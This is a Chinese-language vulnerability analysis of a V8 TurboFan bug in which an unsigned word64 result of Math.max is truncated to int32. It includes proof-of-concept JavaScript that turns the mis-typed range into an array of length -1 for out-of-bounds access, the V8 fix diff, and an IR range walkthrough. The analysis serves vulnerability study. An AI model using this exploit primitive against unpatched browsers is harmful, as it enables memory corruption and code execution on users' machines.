

poc:
```
function foo(b){
    let y = (new Date(42)).getMilliseconds();
    let x = -1;
    if(b) x = 0xFFFF_FFFF;
    let c = Math.max(0, x , -1);
	  return -1 < c;
}

console.log(foo(true));
console.log(foo(false));
for(i=0;i<0x10000;i++)
  foo(false);
console.log(foo(true));
```

Root case：
当b是true时，x = 0xFFFF_FFFF；
在Math.max中，x的类型为kword64，此时他是一个无符号数，值为0xFFFF_FFFF所以在max后返回0xFFFF_FFFF，但是-1 < c比较时，因为比较是Int32lessthan，jit时这里会有一个将word64截断为int32的过程(可以对照下面的代码)，此时0xFFFF被识别为有符号数为-1，所以返回false。



相关代码：
```
@@ -949,10 +949,10 @@
     return node;
   } else if (output_rep == MachineRepresentation::kWord64) {
     if (output_type.Is(Type::Signed32()) ||
-        output_type.Is(Type::Unsigned32())) {
-      op = machine()->TruncateInt64ToInt32();
-    } else if (output_type.Is(cache_->kSafeInteger) &&
-               use_info.truncation().IsUsedAsWord32()) {
+        (output_type.Is(Type::Unsigned32()) &&
+         use_info.type_check() == TypeCheckKind::kNone) ||
+        (output_type.Is(cache_->kSafeInteger) &&
+         use_info.truncation().IsUsedAsWord32())) {
       op = machine()->TruncateInt64ToInt32();
     } else if (use_info.type_check() == TypeCheckKind::kSignedSmall ||
                use_info.type_check() == TypeCheckKind::kSigned32 ||
```

原先当if (output_type.Is(Type::Signed32()) ||       output_type.Is(Type::Unsigned32()))条件满足时，将会添加一个TruncateInt64ToInt32();截断，这也就是漏洞的成因。

稍微修改下poc：
```
function foo(b) {
	let x = -1;
	if (b) x = 0xFFFF_FFFF;
	let c = Math.max(0, x) - 1;
	c = -c;
	c = Math.max(c, 0);
	c -= 1;
	var arr=new Array(c);
	arr.shift();
	var cor = [1.1,1.2,1.3];
	return [arr, cor];
}

for(var i=0;i<0x3000;++i)
    foo(false);

var x = foo(true);
var arr = x[0];
var cor = x[1];
console.log(arr.length);
```
简单分析一下poc：

let c = Math.max(0, x) - 1;
ir图如下：

此处是在max结点和sub结点直接的截断触发了漏洞。
这将导致实际值为-2，而推测值为Range(-1,4294967294)；

c = 0-c; 实际值2，推测范围Range(-4294967294,1)
c = Math.max(c, 0);//实际值2，推测范围Range(0,1)
c -= 1;//实际值1，推断范围Range(-1，0）
ir图如下：

通过运算构造出oob所需要的格式这样就可以配合arr.shift();创建出长度为-1的arry，即可用它来oob。

我们来简单看一下arr.shift附近的ir图：

上图是load elimination阶段之前的图，此时由于不知道具体的length范围，会给它一个初始的大range。

load elimination阶段之后将length折叠为了常数-1


相关代码：


